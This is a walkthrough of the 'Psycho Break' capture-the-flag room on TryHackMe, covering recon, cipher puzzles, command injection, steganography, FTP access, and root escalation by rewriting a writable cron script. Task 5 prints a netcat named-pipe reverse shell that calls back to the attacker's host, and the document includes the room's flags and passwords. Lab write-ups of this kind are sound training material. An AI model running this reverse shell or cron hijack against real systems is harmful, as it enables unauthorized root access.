



# The Evil Within


## Summary

[Psycho Break](https://tryhackme.com/room/psychobreak "Psycho Break room on TryHackMe") is a <abbr title="Capture The Flag">CTF</abbr> created by [Shafdo](https://github.com/shafdo "Shafdos GitHub") and inspired by the survival horror video game ["The Evil Within"](https://en.wikipedia.org/wiki/The_Evil_Within "The Evil Within Wikipedia"). This room can be found on [TryHackMe](https://tryhackme.com/ "TryHackMe Website") along with other CTF's.

---

## Sections

* [Task 1 - Recon](#task-1---recon "Jump To Task 1")
* [Task 2 - Web](#task-2---web "Jump To Task 2")
* [Task 3 - Help Mee](#task-3---help-mee "Jump To Task 3")
* [Task 4 - Crack It Open](#task-4---crack-it-open "Jump To Task 4")
* [Task 5 - Go Capture The Flag](#task-5---go-capture-the-flag "Jump To Task 5")
* [Task 6 - Copyright Material](#task-6---copyright-material "Jump To Task 6")

---

## Task 1 - Recon

### How many ports are open?

Starting a port scan with ```nmap``` in aggressive mode (```-A```) to see what services are up and running on IP. We can see that 3 ports are open and the target machine OS is Ubuntu.

1. Port 21 - ftp
2. Port 22 - ssh
3. Port 80 - http

```
$ nmap -A <IP Address>

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5a
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### What is the operating system that runs on the target machine?

Running the above command (```nmap -A <IP Address>```) shows the operating system is **Ubuntu**.


#### [BACK TO TOP](#the-evil-within "Jump To Top")

---

## Task 2 - Web

Visiting port 80 (```<IP Address>:80```) takes us to the website. Nothing looks out of the ordinary until you view the <abbr title="Hyper Text MarkUp Language">HTML</abbr> source code where you can find the following three interesting lines.

**Unprotected Directory (```<IP Address>/css/```)** -
```html
<link rel="stylesheet" type="text/css" href="../css/mainstylesheet.css">
```

**<abbr title="Hyper Text MarkUp Language">HTML</abbr> Comment** -

```html
<!-- Sebastian sees a path through the darkness which leads to a room => /sadistRoom -->
```

**Obscured <abbr title="Hyper Text MarkUp Language">HTML</abbr> Element (White Text On A White Background)** -

```html
<a href="map.html" style="color: #fff;">Here is the map</a>
```

The unprotected directory (```<IP Address>/css```) has two css files.

1. ```/css/mainstylesheet.css```
2. ```/css/lightbox.css``` (this file references an ```/images``` directory I couldn't find).



The link to ```map.html``` goes nowhere.

So the only way forward for now is to visit the directory referenced in the <abbr title="Hyper Text MarkUp Language">HTML</abbr> comment.

Navigating to ```<IP Address>/sadistRoom``` and clicking the link at the bottom of the screen triggers the following JavaScript alert:

> Key to locker Room => 532219a04ab7a02b56faafbec1a4c1ea

Copy the key, click the button that says "**Enter Key To The Locker Room**" and paste it into the prompt to be taken to ```<IP Address>/lockerRoom/```

### Key to the looker room

You can find the key by clicking the link at the bottom of ```<IP Address>/sadistRoom```.

> Key to locker Room => 532219a04ab7a02b56faafbec1a4c1ea

Additional Notes -

The key to the locker room is an MD5 hash of "**enterlockerroom**".

### Key to access the map

At the bottom of ```<IP Address>/lockerRoom``` we see the following text:

> Decode this piece of text "Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv" and get the key to access the map.

And a link that leads to ```<IP Address>/map.php``` where we can paste our decrypted text.

At first the cipher text looks like a Caesar Cipher but using CyberChef to brute force the 26 keys. None of the outputs seem valid.

And it's not a Vigenere Cipher.

So the next option is to put the cipher text into a [cipher identifier/analyzer](https://www.boxentriq.com/code-breaking/cipher-identifier "Boxentriq Cipher Analyzer").

The tool informs us that this is most likely an [Atbash Cipher](https://en.wikipedia.org/wiki/Atbash "Atbash Cipher Wikipedia").

Atbash is a simple cipher often referred to as "mirror code" where a letter is mapped to its reverse (A=Z, B=Y, C=X, Z=A, Y=B, C=X, etc).

Atbash Table (Taken From Wikipedia)-

<table><tbody><tr style="vertical-align:top"><th scope="row">  Plain</th><td>  A</td><td>B</td><td>C</td><td>D</td><td>E</td><td>F</td><td>G</td><td>H</td><td>I</td><td>J</td><td>K</td><td>L</td><td>M</td><td>N</td><td>O</td><td>P</td><td>Q</td><td>R</td><td>S</td><td>T</td><td>U</td><td>V</td><td>W</td><td>X</td><td>Y</td><td>Z</td></tr><tr style="vertical-align:top"><th scope="row">  Cipher</th><td> Z</td><td>Y</td><td>X</td><td>W</td><td>V</td><td>U</td><td>T</td><td>S</td><td>R</td><td>Q</td><td>P</td><td>O</td><td>N</td><td>M</td><td>L</td><td>K</td><td>J</td><td>I</td><td>H</td><td>G</td><td>F</td><td>E</td><td>D</td><td>C</td><td>B</td><td>A</td></tr></tbody></table>

Knowing all this, we can take our cipher text and manually decrypt it with the above table or use a tool like [CyberChef](https://cyberchef.org/ "CyberChef Website") to get the following secret message.

> Grant_me_access_to_the_map_please



### The Keeper Key

After we put in the key for the map the following links were revealed:

1. Sadist Room (```<IP Address>/sadistRoom/```)

2. Locker Room (```<IP Address>/lockerRoom/```)

3. Safe Heaven (```<IP Address>/safeHeaven/```)

4. The Abandoned Room (```<IP Address>/abandonedRoom/```)

Visiting ```<IP Address>/abandonedRoom/``` we'll see that we need another key.

Visiting ```<IP Address>/safeHeaven/``` we'll find a bunch of images. But extracting metadata with ```exiftool```, looking for suspicious strings with the ```strings``` command in linux, or trying to extract a file with ```steghide```, all lead nowhere.

I even tried reading the ```lighthouse.js``` file line by line, but it's just a bunch of code for an image carousel. There's nothing else hidden inside.

So all we have is an <abbr title="Hyper Text MarkUp Language">HTML</abbr> comment that reads the following.

```html
<!-- I think I'm having a terrible nightmare. Search through me and find it ... -->
```

So back to the basics with more **directory scanning**. I'm personally using gobuster with [directory-list-2.3-medium.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-medium.txt "Directory List 2.3 Medium On GitHub") as the wordlist. You'll have to wait until the scan is almost finished to find the hidden directory ```<IP Address>/SafeHeaven/keeper```.

```
$ gobuster -w /path/to/wordlist -u http://<IP Address>/SafeHeaven/

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.91.194/SafeHeaven/
[+] Threads      : 10
[+] Wordlist     : /path/to/wordlist
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2022/11/18 17:20:03 Starting gobuster
=====================================================
/imgs (Status: 301)
/keeper (Status: 301)
=====================================================
2022/11/18 18:22:41 Finished
=====================================================
```

Going to ```http://<IP Address>/SafeHeaven/keeper/``` we see an image with a button underneath that says "Escape Keeper".

Clicking on this button takes us to the following URL.

```http://<IP Address>/SafeHeaven/keeper/escapefromkeeper.php```

Here we have to identify an images location before the timer runs out.


Doing a reverse image search of the spiral staircase image reveals this to be the inside of St. Augustine Lighthouse.

Typing that in to the input box we get the following message:

> Here is your key : 48ee41458eb0b43bf82b986cecf3af01

Paste the key into the input box at ```<IP Address>/abandonedRoom/```. Then you'll be taken to:

```http://<IP Address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/index.php```

### What is the filename of the text file (without the file extension)

Once we make it to ```<IP Address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/``` we have to click another button to move forward. Which takes us to:

```<IP Address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php```

Another page where we have to do something before the timer runs out.

If we look at the <abbr title="Hyper Text MarkUp Language">HTML</abbr> source code we can find the following comments.

```html
<!-- There is something called "shell" on current page maybe that'll help you to get out of here !!!-->

<!-- To find more about the Spider Lady visit https://theevilwithin.fandom.com/wiki/Laura_(Creature) -->
```

So he references a "shell". The only way we can access the shell is through <abbr title="Operating System">OS</abbr> command injections because there's nothing else here. After some trial and error we find the vulnerability.

The parameter we need to pass in is ```shell``` (```herecomeslara.php?shell=ls```).

```<IP Address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls```

This returns:
> assets dead.php herecomeslara.php index.php script.js

Nothing interesting in those.

After trying to execute ```whoami```, ```pwd```, and a million other commands you'll find that every command you can think of is forbidden. So all we have is ```ls``` and even that is very limited. No ```ls -la```, no ```ls /```. The only option you can add to ```ls``` is ```..```.

```<IP Address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls ..```

Which outputs the following two hashes (one of which is our current directory) and php file:

> 680e89809965ec41e64dc7e447f175ab be8bc662d1e36575a52da40beba38275 index.php

Taking these hashes and pasting them into [hashes.com](https://hashes.com/en/decrypt/hash "Hashes Website") we get the following:

> 680e89809965ec41e64dc7e447f175ab:laura
> be8bc662d1e36575a52da40beba38275:thefinal

But again, this leads us nowhere and happens to be another rabbit hole.

The only way to move forward from here is to use "thefinal" hash as a directory (```<IP Address>/abandonedRoom/680e89809965ec41e64dc7e447f175ab/```).

Which reveals the following files:

* [helpme.zip](./Assets/helpme.zip)
* [you_made_it.txt](./Assets/you_made_it.txt)

The [you_made_it.txt](./Assets/you_made_it.txt) file contains the following sentence.

> You made it. Escaping from Laura is not easy, good job ....

#### [BACK TO TOP](#the-evil-within "Jump To Top")

---

## Task 3 - Help Mee

### Who is locked up in the cell?

After unzipping [helpme.zip](./Assets/helpme.zip "helpme zip file") we get a text file ([helpme.txt](./Assets/helpme/helpme.txt "helpme text file")) and an image ([Table Image](./Assets/helpme/Table.jpg "Table Image")).

The text file tells us to unlock the cell and free the man inside (Joseph). Using the key that can be found on the "table" (the image).

```
From Joseph,

Who ever sees this message "HELP Me". Ruvik locked me up in this cell. Get the key on the table and unlock this cell. I'll tell you what happened when I am out of this cell.
```

### There is something weird with the .wav file. What does it say?

If we try to view the image we get an error telling us that the image file format is unrecognized. So this "JPEG" isn't a JPEG.

If we run ```exiftool``` on [Table.jpg](./Assets/helpme/Table.jpg "Corrupted Image") we see the following.

```
$ exiftool Table.jpg
ExifTool Version Number         : 12.40
File Name                       : Table.jpg
File Size                       : 25 KiB
File Type                       : ZIP
File Type Extension             : zip
MIME Type                       : application/zip
Zip Required Version            : 20
Zip Bit Flag                    : 0x0008
Zip Compression                 : Deflated
Zip Modify Date                 : 2020:07:07 22:37:08
Zip CRC                         : 0xd677dea6
Zip Compressed Size             : 25237
Zip Uncompressed Size           : 25399
Zip File Name                   : Joseph_Oda.jpg
Warning                         : [minor] Use the Duplicates option to extract tags for all 2 files
```

And if we run the ```strings``` command we can find the following interesting strings near the bottom.

```
$ strings Table.jpg

Joseph_Oda.jpgUT
key.wavUT
```

So [Table.jpg](./Assets/helpme/Table.jpg "Table Image") isn't a JPG, it's a [ZIP file](./Assets/helpme/Table.zip "Table.zip file") with two files inside. A JPG and A WAV file called [Joseph_Oda.jpg](./Assets/helpme/Table/Joseph_Oda.jpg "Joseph Oda Image") and [key.wav](./Assets/helpme/Table/key.wav "key.wav file").

An alternative and easier way to have figured out it was a ZIP file is to run the ```file``` command in Linux.

```
$ file Table.jpg
Table.jpg: Zip archive data, at least v2.0 to extract, compression method=deflate
```

Now all you need to do to access the files is change the ```.jpg``` extension to ```.zip```.

If we run ```exiftool``` on the image nothing interesting is returned.

When we listen to the WAV file, we can **hear** morse code. To make it easier to decode we can use an audio tool like [Audacity](https://www.audacityteam.org/ "Audacity Website") to **see** the morse code by looking at the audio waves.



The thin bars represent dots and the thicker ones dashes. The gaps represent spaces. This makes it easier for us to input into CyberChef and decode.

Where we find the following message:

> SHOWME

Now we have our key to unlock Joseph from his cell.

### What is the FTP Username

So Joseph wants us to "show him" the key. This must mean that the image of [Joseph_Oda.jpg](./Assets/helpme/Table/Joseph_Oda.jpg "Image of Joseph Oda") has a password protected file inside that we can extract with the key. We can extract the file with ```steghide``` and use "SHOWME" as the passphrase.

```
$ steghide extract -sf Joseph_Oda.jpg
Enter passphrase: SHOWME
wrote extracted data to "thankyou.txt".
```

Reading [thankyou.txt](./Assets/helpme/Table/thankyou.txt "Thank you file") we see the following.

```
From joseph,

Thank you so much for freeing me out of this cell. Ruvik is nor good, he told me that his going to kill sebastian and next would be me. You got to help 
Sebastian ... I think you might find Sebastian at the Victoriano Estate. This note I managed to grab from Ruvik might help you get inn to the Victoriano Estate. 
But for some reason there is my name listed on the note which I don't have a clue.

--------------------------------------------
(NOTE) FTP Details
==================
USER : joseph
PASSWORD : intotheterror445
--------------------------------------------

Good luck, Be carefull !!!
```

### What is the FTP User Password

Viewing the [thankyou.txt](./Assets/helpme/Table/thankyou.txt "Thank you file") file that you get when you extract it from the [Joseph_Oda.jpg](./Assets/helpme/Table/Joseph_Oda.jpg "Joseph Oda") with ```steghide``` reveals the password to be:

> intotheterror445

#### [BACK TO TOP](#the-evil-within "Jump To Top")

---

## Task 4 - Crack It Open

With the login credentials we got from the above tasks (joseph:intotheterror445) we can connect to FTP and see what files exist there.

```
$ ftp <IP Address>

Name: joseph
331 Password required for joseph
Password: intotheterror445
230 User joseph logged in
Remote system type is UNIX.
Using binary mode to transfer files.
```

After we connect we can check for files with ```ls -la```.

```
ftp> ls -la
229 Entering Extended Passive Mode (|||3125|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 0        0            4096 Aug 13  2020 .
drwxr-xr-x   2 0        0            4096 Aug 13  2020 ..
-rwxr-xr-x   1 joseph   joseph   11641688 Aug 13  2020 program
-rw-r--r--   1 joseph   joseph        974 Aug 13  2020 random.dic
226 Transfer complete
```

Now we can download the two files with ```get <filename>```.

```
ftp> get program
local: program remote: program
229 Entering Extended Passive Mode (|||52439|)
150 Opening BINARY mode data connection for program (11641688 bytes)
100% |***********************************| 11368 KiB  705.52 KiB/s    00:00 ETA
226 Transfer complete
11641688 bytes received in 00:16 (697.89 KiB/s)

ftp> get random.dic
local: random.dic remote: random.dic
229 Entering Extended Passive Mode (|||62354|)
150 Opening BINARY mode data connection for random.dic (974 bytes)
100% |***********************************|   974       10.20 MiB/s    00:00 ETA
226 Transfer complete
974 bytes received in 00:00 (5.53 KiB/s)
```

Once we've downloaded the two files. We can check for their contents.

[random.dic](./Task-4-Files/random.dic "random word dictionary") is a short dictionary of random passwords. So we'll need this to brute force something. Most likely the program file somehow.

Running ```file``` on program tells us it's an executable.

```
$ file program

program: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=294d1f19a085a730da19a6c55788ec08c2187039, stripped
```

In order to run the program we're going to need to update the permissions to allow execution. We can do this by executing ```chmod u+x program```.

Lets see what happens when we run the file (```./program```).

```
$ ./program
[+] Usage

./program <word>
```

Or put in a wrong key:

```
$ ./program testing
testing => Incorrect
```

So our suspicions were correct, we're going to have to bruteforce this program with the [random.dic](./Task-4-Files/random.dic "Password Wordlist") wordlist.

### The key used by the program

In order to find the key we have to brute force the "[program](./Task-4-Files/program "Executable Program")" executable with the [random.dic](./Task-4-Files/random.dic "Word List") file. We can do this by using the following [Python script](./Task-4-Files/brute-force.py "Brute Force Python Program") and combing through the results once it's done running.

```python
import os

f = open('random.dic', 'r')
lines = f.readlines()

for line in lines:
    os.system("./program " + line)
```

If you look through the results you'll find one line in the output different from the rest.

```
justin => Incorrect

killer => Incorrect

kidman => Correct

Well Done !!!
Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33

letmein => Incorrect
```

The key for the program is ```kidman``` and now we have to decode that string of numbers.

### What do the crazy long numbers mean when there decrypted.

Looking at this string of numbers:

> 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33

We can try to guess what it is by noticing some patters. We can rule out decimal to <abbr title="American Standard Code For Information Interchange">ASCII</abbr> because those lie in the range of 65-90 for uppercase letters and 97-122 for lowercase letters.

These numbers are in a weird range of 2-7777, and numbers higher than 9 **ALL** repeat. It's always 7777, 777, or 666 but **NEVER** 7634, 623, 27.

This becomes a major clue. The range is not 2-7777. It's 1-9 and they repeat 1-4 times.

We also know that the numbers are meant to be **DECODED** and not decrypted.

So we're looking for an encoding scheme that turns letters to numbers, and uses 0-9 with some repeating. Where numbers like 777 and 7777 are different letters.

At this point you might be thinking a phones keypad. But each number represents 3 letters and in some case 4. We can confirm the keypad theory by checking if the numbers that repeat 4 times are the numbers on the keypad with 4 letters (7 = PQRS).

Once this has been confirmed we can use the amount of repetitions as the number of the letter we need (333 = F, the third letter on number 3).

| **LETTER** | **KEYPAD** |
|------------|------------|
| A          | 2          |
| B          | 22         |
| C          | 222        |
| D          | 3          |
| E          | 33         |
| F          | 333        |
| G          | 4          |
| H          | 44         |
| I          | 444        |
| J          | 5          |
| K          | 55         |
| L          | 555        |
| M          | 6          |
| N          | 66         |
| O          | 666        |
| P          | 7          |
| Q          | 77         |
| R          | 777        |
| S          | 7777       |
| T          | 8          |
| U          | 88         |
| V          | 888        |
| W          | 9          |
| X          | 99         |
| Y          | 999        |
| Z          | 9999       |

Using the table above we can decode the numbers into:
> KIDMANSPASSWORDISSOSTRANGE

Side Note -

While doing this I found out this kind of encoding is called ["multi-tap"](https://en.wikipedia.org/wiki/Multi-tap "Multi Tap Wikipedia") and is based on the way you would text with older cellphones.

#### [BACK TO TOP](#the-evil-within "Jump To Top")

---

## Task 5 - Go Capture The Flag

Now that we have the username and password (kidman:KIDMANSPASSWORDISSOSTRANGE) we can SSH into the machine.

```
$ ssh kidman@<IP Address>
kidman@<IP Address>'s password: KIDMANSPASSWORDISSOSTRANGE

Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

171 packages can be updated.
121 updates are security updates.

kidman@evilwithin:~$ 
```

Let's run some initial commands to see who we are (```whoami```), where we are (```pwd```), if we have ```sudo``` permissons (```sudo -l```), and what's in the current directory (```ls -la```).

```
kidman@evilwithin:~$ whoami
kidman
kidman@evilwithin:~$ pwd
/home/kidman/
kidman@evilwithin:~$ sudo -l
[sudo] password for kidman: KIDMANSPASSWORDISSOSTRANGE
Sorry, user kidman may not run sudo on evilwithin.
kidman@evilwithin:~$ ls -la
total 44
drwxr-xr-x 4 kidman kidman 4096 Aug 13  2020 .
drwxr-xr-x 5 root   root   4096 Jul 13  2020 ..
-rw------- 1 kidman kidman    1 Aug 13  2020 .bash_history
-rw-r--r-- 1 kidman kidman  220 Jul 13  2020 .bash_logout
-rw-r--r-- 1 kidman kidman 3771 Aug 13  2020 .bashrc
drwx------ 2 kidman kidman 4096 Jul 13  2020 .cache
drwxrwxr-x 2 kidman kidman 4096 Jul 13  2020 .nano
-rw-r--r-- 1 kidman kidman  655 Jul 13  2020 .profile
-rw-rw-r-- 1 kidman kidman  264 Aug 13  2020 .readThis.txt
-rw-r--r-- 1 root   root     10 Nov 20 08:54 .the_eye.txt
-rw-rw-r-- 1 kidman kidman   33 Jul 13  2020 user.txt
```

Let's ```cat``` those files (```.readThis.txt```, ```.the_eye.txt```, ```user.txt```).

```
kidman@evilwithin:~$ cat user.txt
4C72A4EF8E6FED69C72B4D58431C4254

kidman@evilwithin:~$ cat .readThis.txt

uC@> z:5>2?i

%96 E9:?8 x 2> 23@FE E@ E6== D@ :D E@A D64C6E] }@ @?6 5@6D?VE <?@H 23@FE E9:D] xEVD E96 #FG:<VD 6J6] }@ @?6 42? 9:56 2H2J 7C@> :E] qFE x 42? E6== J@F @?6 E9:?8 D62C49 7@C E96 DEC:?8 YE9606J60@70CFG:<Y ] *@F 8@E E@ 96=A $632DE:2? 56762E #FG:< ]]]

kidman@evilwithin:~$ cat .the_eye.txt
No one can hide from me.
```

We found the user.txt flag and the file called "readThis.txt" appears to be ROT47.

If we decrypt it we get the following message.

```
From Kidman:

The thing I am about to tell so is top secret. No one doesn't know about this. It's the Ruvik's eye. No one can hide away from it. But I can tell you one thing search for the string *the_eye_of_ruvik* . You got to help Sebastian defeat Ruvik ...
```

Now to move on to trying to root this machine and doing the bonus.

### user.txt

Use the ```cat``` command on the user.txt file in ```/home/kidman``` to see the following flag.

```
kidman@evilwithin:~$ cat user.txt
4C72A4EF8E6FED69C72B4D58431C4254
```

### root.txt

We already checked if we had sudo privilidges ```sudo -l``` and we had none. After that you can check if any files have the SUID bit set with ```find / -type f -perm -04000 -ls 2>/dev/null``` but none of those binaries will lead us to a reverse shell. Next we can check the ```crontab``` with ```cat /etc/crontab```.

```
kidman@evilwithin:~$ cat /etc/crontab

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

*/2 * * * * root python3 /var/.the_eye_of_ruvik.py
```

That last line tells us that every 2 minutes (*/2) a Python file with the name ".the_eye_of_ruvik.py" is being executed.

If we check the permissions we can see that we have read and write permissions for this file and if we ```cat``` the file we can see that it just outputs a random threat to the ".the_eye.txt" file in kidmans home directory.

```
kidman@evilwithin:~$ ls -la /var/.the_eye_of_ruvik.py
-rwxr-xrw- 1 root root 300 Aug 14  2020 /var/.the_eye_of_ruvik.py

kidman@evilwithin:~$ cat /var/.the_eye_of_ruvik.py
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)
```

We're going to delete all this and insert a python script for a reverse shell using netcat. I found this reverse shell on [pentestmonkey.net](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Pentest Monkey Rever Shell Cheat Sheet").

If we visit that [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet "Pentest Monkey Rever Shell Cheat Sheet") it says the following for the netcat reverse shell.

```
Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

nc -e /bin/sh 10.0.0.1 1234

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

We can check for the ```-e``` flag by looking up the help manual for netcat with ```netcat -h``` where we'll see this version doesn't accept it.

```
kidman@evilwithin:~$ netcat -h
Command Summary:
    -4		Use IPv4
    -6		Use IPv6
    -b		Allow broadcast
    -C		Send CRLF as line-ending
    -D		Enable the debug socket option
    -d		Detach from stdin
    -h		This help text
    -I length	TCP receive buffer length
    -i secs		Delay interval for lines sent, ports scanned
    -j		Use jumbo frame
    -k		Keep inbound sockets open for multiple connects
    -l		Listen mode, for inbound connects
    -n		Suppress name/port resolutions
    -O length	TCP send buffer length
    -P proxyuser	Username for proxy authentication
    -p port		Specify local port for remote connects
        -q secs		quit after EOF on stdin and delay of secs
    -r		Randomize remote ports
    -S		Enable the TCP MD5 signature option
    -s addr		Local source address
    -T toskeyword	Set IP Type of Service
    -t		Answer TELNET negotiation
    -U		Use UNIX domain socket
    -u		UDP mode
    -V rtable	Specify alternate routing table
    -v		Verbose
    -w secs		Timeout for connects and final net reads
    -X proto	Proxy protocol: "4", "5" (SOCKS) or "connect"
    -x addr[:port]	Specify proxy address and port
    -Z		DCCP mode
    -z		Zero-I/O mode [used for scanning]
```

That means we'll have to try the second reverse shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Remove everything from the ```.the_eye_of_ruvik.py``` except for the first line (```#!/usr/bin/python3```) and insert the following into the python script.

```python
import subprocess

subprocess.call("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP Address> 1234 >/tmp/f", shell=True)
```

Remeber to replace ```<IP Address>``` with your tunnel IP Address (you can find it by using ```ifconfig``` and looking for the IP Address in ```tun```).

Now open a netcat listener on ```port 1234``` with the flags ```-lnvp```.

```
$ nc -lnvp 1234
Listening on 0.0.0.0 1234
```

Wait a bit and you should see some output similar to the following.

```
$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on <IP Address>
/bin/sh: 0: can't access tty; job control turned off
#
```

Now we can verify we're root with ```whoami```, check where we are with ```pwd``` and list everything in the current directory with ```ls -la```.

```
$ nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.108.2 34822
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# pwd
/root
# ls -la
total 40
drwx------  4 root root 4096 Aug 13  2020 .
drwxr-xr-x 23 root root 4096 Jul 14  2020 ..
-rw-------  1 root root  332 Aug 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Aug 13  2020 .bashrc
drwx------  2 root root 4096 Jul  7  2020 .cache
drwxr-xr-x  2 root root 4096 Jul  7  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  302 Aug 13  2020 readMe.txt
-rw-r--r--  1 root root   33 Jul  7  2020 root.txt
-rw-r--r--  1 root root  175 Aug 13  2020 .wget-hsts
```

Finally we can read the root flag (```root.txt```) and the bonus task file (```readMe.txt```).

```
# cat root.txt
BA33BDF5B8A3BFC431322F7D13F3361E
```
```
# cat readMe.txt
From Sebastian:
You have one final task ... Help me to defeat ruvik!!!
```

Now, to defeat Ruvik.

### **Bonus**: Defeat Ruvik

#### [BACK TO TOP](#the-evil-within "Jump To Top")
